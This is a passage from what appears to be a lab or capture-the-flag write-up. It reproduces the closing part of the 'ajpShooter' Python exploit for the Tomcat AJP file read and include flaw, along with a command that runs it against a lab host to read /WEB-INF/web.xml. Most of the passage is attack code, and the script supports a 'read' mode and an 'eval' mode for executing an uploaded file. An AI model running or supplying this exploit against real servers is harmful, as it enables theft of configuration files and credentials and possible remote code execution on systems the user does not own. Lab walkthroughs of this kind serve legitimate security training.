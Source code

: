 ```bash
            hsplit = header.split(':')
            hname = hsplit[0]
            hvalue = ':'.join(hsplit[1:])
            newheaders.append((hname.lower().encode('utf8'), hvalue.encode('utf8')))

        return newheaders


if __name__ == "__main__":
    # parse command line arguments
    print('''
       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    ''')
    parser = argparse.ArgumentParser()
    parser.add_argument('url', help='target site\'s context root url like http://www.example.com/demo/')
    parser.add_argument('ajp_port', default=8009, type=int, help='ajp port')
    parser.add_argument('target_file', help='target file to read or eval like /WEB-INF/web.xml,/image/evil.jpg')
    parser.add_argument('shooter', choices=['read', 'eval'], help='read or eval file')

    parser.add_argument('--ajp-ip', help='ajp server ip,default value will parse from from url')
    parser.add_argument('-H', '--header', help='add a header', action='append')
    parser.add_argument('-X', help='Sets the method (default: %(default)s).', default='GET',
                        choices=['GET', 'POST', 'HEAD', 'OPTIONS', 'PROPFIND'])
    parser.add_argument('-d', '--data', nargs=1, help='The data to POST')
    parser.add_argument('-o', '--out-file', help='write response to file')
    parser.add_argument('--debug', action='store_true', default=False)

    args = parser.parse_args()
    debug = args.debug
    ajpShooter(args).shoot()
```

```bash
python ajpShooter.py http://10.10.218.249 8009  /WEB-INF/web.xml read
```

[![](assets/1706771526-9483023fa501a7fb5fa63904f2cead9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223033-f5da7724-beb2-1.png)
